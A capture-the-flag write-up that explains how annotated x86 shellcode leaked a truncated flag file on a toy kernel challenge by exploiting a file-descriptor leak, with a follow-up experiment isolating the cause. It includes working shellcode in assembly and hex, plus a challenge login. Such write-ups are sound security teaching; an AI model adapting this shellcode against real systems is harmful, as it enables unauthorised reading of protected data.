


# How a buggy program solves a 400 point challenge
**Writeup Author:** Kevin He (Username `trinary-exploitation`)  
**Category:** Kernel Exploitation
> ## Freaky_File_Descriptors (13 solves, 400 points)
> How does the OS know what bytes to give you when you call read? How does it keep track of how far you've read into a file?
> 
> Find an exploit that lets you read past the end of /sandb0x/freaky_fds.txt and see what was truncated!

To start, I ran `cat /sandb0x/freaky_fds.txt` to see if the file is suspicious, I got:
> \[Devlog\]: On second thought, keeping this info stored in plaintext is too dangerous. I'm going to redact the secure parts.  
> 
> User: sandb0x  
> Password: pwny
> 
> Super important flag for the Freaky File Descriptors challenge:

And nothing more was printed to the screen.

## The memory initialization myth

Since the challenge suggests that there is truncated data after the file, I initially thought it would be as easy as requesting more bytes to read than the file's length, so I wrote this piece of shellcode (this will be referred to as _Shellcode A_ later on):

**Shellcode A**
```asm
.arch x86
.bits 32
.org 0x0804e0a0 ; If the address binexec will run your program is not this value, REPLACE with the address you get. This line sets the address for the first instruction so that labels work correctly
.equ sizebuf 500 ; Buffer size of 500, which is longer than the length of the file

mov eax, 2 ; Syscall number for OPEN
mov ebx, filename ; filename="/sandb0x/freaky_fds.txt"
int 0x80 ; fd = OPEN(filename), fd is the file descriptor for this file
mov ebx, eax ; fd from OPEN
mov eax, 4 ; Syscall number for READ
mov ecx, buffer ; buffer for READ
mov edx, sizebuf ; max number of bytes to READ = buffer size
int 0x80 ; READ(fd, buffer, sizebuf)
mov eax, 5 ; Syscall number for WRITE
mov ebx, 0 ; File descriptor 0 is standard output (stdout): write to terminal screen
mov ecx, buffer ; write contents of buffer (containing read data) to stdout
mov edx, sizebuf ; max number of bytes to write = buffer size
int 0x80 ; WRITE(0, buffer, sizebuf)
ret

filename:
.string "/sandb0x/freaky_fds.txt"
buffer:
; the buffer, uses uninitialized data after the shellcode, hopefully it won't overflow the memory region allocated by binexec
```

Compiling this with `rasm2 -f <filename>` gives the following shellcode:
```
b802000000bbd6e00408cd8089c3b804000000b9eee00408baf4010000cd80b805000000bb00000000b9eee00408baf4010000cd80c32f73616e646230782f667265616b795f6664732e74787400
```

But using this shellcode, I got the same result obtained from `cat`, except for some padding spaces (which are actually uninitialized unprintable characters) at the end:



I thought that the reason it failed was because part of the buffer after the shellcode was not writable by the process so `READ` had ignored it for security reasons, so I tried again but this time initializing the content after label `buffer:` with underscores, which can be done simply by appending 500 `5f`'s (ASCII code for underscore) to the end of the shellcode (will be referred to as _Shellcode B_). To speed up this process (avoid manual typing), I used some PowerShell scripts which can be found in [`scripts/`](scripts/) in this repository.

After bombarding the screen with `5f`, I cannot believe my eyes:



## Why does this exploit work?

After the CTF is over, I wanted to figure out why this trick works. As I experimented with the `READ` syscall, I found that it refuses to read more characters than the file has by returning fewer characters than requested in the `buf_size` argument. So if that is the case, this exploit would not have worked. I was also very skeptical of whether memory initialization causes `READ` to dump the flag.

In addition, I forgot to close the file descriptor opened by `OPEN` syscall, so I wondered if by running the shellcode &mdash; and thus calling `OPEN` &mdash; multiple times will also contribute to getting the flag.

### A simple experiment

To test out which factor caused `READ` to reveal the flag, I designed a simple controlled experiment with 3 trials:  
- Trial A: Running _Shellcode A_ (the original shellcode _without_ `5f` padding) **twice** in binexec
    - This eliminates memory initialization as a confounding variable
- Trial B: Running _Shellcode B_ (the shellcode _with_ `5f` padding) **once** in binexec
    - This eliminates running `OPEN` multiple times as a confounding variable
- Trial C (Control): Running _Shellcode C_ (shown below) twice. Shellcode C is based on shellcode A but fixes the handle leak bug in shellcode A by calling `CLOSE(fd)` before it exits.

**Shellcode C**
<!-- cSpell:ignore sizebuf -->
```asm
.arch x86
.bits 32
.org 0x0804e0a0 ; If the address binexec will run your program is not this value, REPLACE with the address you get. This line sets the address for the first instruction so that labels work correctly
.equ sizebuf 500 ; Buffer size of 500, which is longer than the length of the file

mov eax, 2 ; Syscall number for OPEN
mov ebx, filename ; filename="/sandb0x/freaky_fds.txt"
int 0x80 ; fd = OPEN(filename), fd is the file descriptor for this file
mov edi, eax ; store fd into edi, which won't be clobbered in syscalls
mov eax, 4 ; Syscall number for READ
mov ebx, edi ; fd from OPEN
mov ecx, buffer ; buffer for READ
mov edx, sizebuf ; max number of bytes to READ = buffer size
int 0x80 ; READ(fd, buffer, sizebuf)
mov eax, 5 ; Syscall number for WRITE
mov ebx, 0 ; File descriptor 0 is standard output (stdout): write to terminal screen
mov ecx, buffer ; write contents of buffer (containing read data) to stdout
mov edx, sizebuf ; max number of bytes to write = buffer size
int 0x80 ; WRITE(0, buffer, sizebuf)
mov eax, 3 ; syscall number for CLOSE
mov ebx, edi ; stored fd from OPEN
int 0x80 ; CLOSE(fd)
ret

filename:
.string "/sandb0x/freaky_fds.txt"
buffer:
; the buffer, uses uninitialized data after the shellcode, hopefully it won't overflow the memory region allocated by binexec
```

To eliminate the current system state as a variable, I rebooted the whole system (Ctrl-X) before running each trial.

### The results

Trial A (running _Shellcode A_ twice) yields the exact same result as if I ran _Shellcode A_ and then _Shellcode B_ as I did while the CTF is running. This concludes that calling `OPEN` twice alone is enough to make `READ` leak the flag, but does memory initialization alone also do the job?

Running trial B (running _Shellcode B_ once), which initialize memory with `5f`s, gives me no flag at all, with underscores in the redacted part. This shows that memory initialization plays no role at all and filling `5f`s as I did during the CTF is completely superfluous.

Trial C does not give me the flag, even though I ran _Shellcode C_ twice, this shows that properly closing a file before opening it again in the same process will not trigger the bug that causes the flag to be leaked.

## End Notes
There are 13 solves to this 400 point challenge (compared to only 5 solves in Kernel_Memory_Leak which is 300 points), which seems quite surprising. Even the contest managers imaged that people might be utilizing a bug that would qualify as a Small Oops. My explanation for this solve number is that most people, like me, wrote a buggy program that did not properly close a file descriptor and ran it again in the same `binexec` session after making unnecessary modifications (or no modifications at all). So future CTF makers have to be careful in designing problems that are difficult to solve not only by valid programs but also by buggy programs.
